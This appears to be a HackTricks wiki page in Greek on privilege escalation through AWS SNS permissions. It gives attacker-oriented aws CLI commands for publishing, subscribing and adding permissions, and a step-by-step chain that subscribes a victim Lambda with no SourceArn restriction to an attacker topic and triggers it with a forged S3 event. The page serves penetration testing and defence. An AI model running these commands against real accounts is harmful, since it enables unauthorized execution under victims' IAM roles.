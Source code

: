 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Ένας επιτιθέμενος θα μπορούσε να στείλει κακόβουλα ή ανεπιθύμητα μηνύματα στο SNS topic, πιθανώς προκαλώντας αλλοίωση δεδομένων, ενεργοποιώντας ανεπιθύμητες ενέργειες ή εξαντλώντας πόρους.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Ενδεχόμενος Αντίκτυπος**: Εκμετάλλευση ευπαθειών, αλλοίωση δεδομένων, ακούσιες ενέργειες ή εξάντληση πόρων.

### `sns:Subscribe`

Ένας επιτιθέμενος θα μπορούσε να εγγραφεί σε ένα θέμα του SNS, ενδεχομένως αποκτώντας μη εξουσιοδοτημένη πρόσβαση σε μηνύματα ή διαταράσσοντας τη φυσιολογική λειτουργία εφαρμογών που βασίζονται στο θέμα.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Πιθανός Αντίκτυπος**: Μη εξουσιοδοτημένη πρόσβαση σε μηνύματα (ευαίσθητες πληροφορίες), διακοπή υπηρεσίας για εφαρμογές που εξαρτώνται από το επηρεασμένο topic.

### `sns:AddPermission`

Ένας επιτιθέμενος θα μπορούσε να χορηγήσει σε μη εξουσιοδοτημένους χρήστες ή υπηρεσίες πρόσβαση σε ένα SNS topic, ενδεχομένως αποκτώντας περαιτέρω δικαιώματα.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Ενδεχόμενος Αντίκτυπος**: Μη εξουσιοδοτημένη πρόσβαση στο topic, έκθεση μηνυμάτων ή χειραγώγηση του topic από μη εξουσιοδοτημένους χρήστες ή υπηρεσίες, διατάραξη της κανονικής λειτουργίας εφαρμογών που εξαρτώνται από το topic.


### Κλήση μιας Lambda με κατάχρηση wildcard δικαιώματος SNS (χωρίς `SourceArn`)

Εάν μια πολιτική βάσει πόρων της συνάρτησης Lambda επιτρέπει στο `sns.amazonaws.com` να την καλεί χωρίς να περιορίζει το source topic (`SourceArn`), οποιοδήποτε SNS topic (ακόμα και σε άλλο λογαριασμό) μπορεί να εγγραφεί και να ενεργοποιήσει τη συνάρτηση. Ένας επιτιθέμενος με βασικά δικαιώματα SNS μπορεί να αναγκάσει τη Lambda να εκτελεστεί υπό το IAM role της με εισόδους ελεγχόμενες από τον επιτιθέμενο.

> [!TIP]
> TODO: Μπορεί αυτό πραγματικά να γίνει cross-account;

Προϋποθέσεις
- Η πολιτική Lambda του θύματος περιέχει μια δήλωση όπως παρακάτω, χωρίς συνθήκη `SourceArn`:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Abuse βήματα (ίδιος λογαριασμός ή cross-account)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Πιθανός αντίκτυπος**: Η victim Lambda εκτελείται με το IAM role της και επεξεργάζεται attacker-controlled input. Αυτό μπορεί να εκμεταλλευτεί ώστε η function να εκτελέσει ευαίσθητες ενέργειες (π.χ., write to S3, access secrets, modify resources) ανάλογα με τα permissions της.


{{#include ../../../../banners/hacktricks-training.md}}
